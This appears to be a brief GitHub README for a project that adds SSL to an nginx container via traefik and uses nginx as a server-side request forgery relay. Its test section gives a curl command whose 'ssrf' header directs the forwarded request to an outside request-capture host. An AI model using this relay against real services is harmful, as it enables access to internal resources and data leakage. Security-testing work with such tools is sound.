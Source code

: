 # traefik-ssl-nginx-ssrf
quick add ssl to nginx(or any other conainer), and use nginx to SSRF

test
```
curl -k  'https://127.0.0.1/' -d '{"key1":"value1", "key2":"value2"}' -H 'ssrf:https://xx.m.pipedream.net/ssrf?p=test'
```
